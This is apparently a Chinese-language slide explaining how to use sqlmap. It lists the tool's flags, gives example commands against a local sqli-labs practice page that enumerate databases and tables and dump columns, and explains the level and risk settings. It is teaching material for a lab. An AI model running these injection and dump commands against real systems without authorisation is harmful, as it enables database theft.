

sqlmap使用
-u:用于get提交方式，后面跟注入的url网址
--level
--risk

--dbs：获取所有数据库
sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" --dbs
--tables：获取所有数据表
sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" -D mydb --tables
--columns：获取所有字段
--dump：打印数据
sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" -D mydb -T emp -C ename,job --dump

-D：查询选择某个库
-T：查询选择某个表
-C：查询选择某个字段
level：执行测试的等级（1~5，默认为1），使用-level参数并且数值>=2的时候会检查cookie里面的参数，
当>=3时检查user-agent和referer
risk：执行测试的风险（0~3,默认为1），默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加or语句的sql注入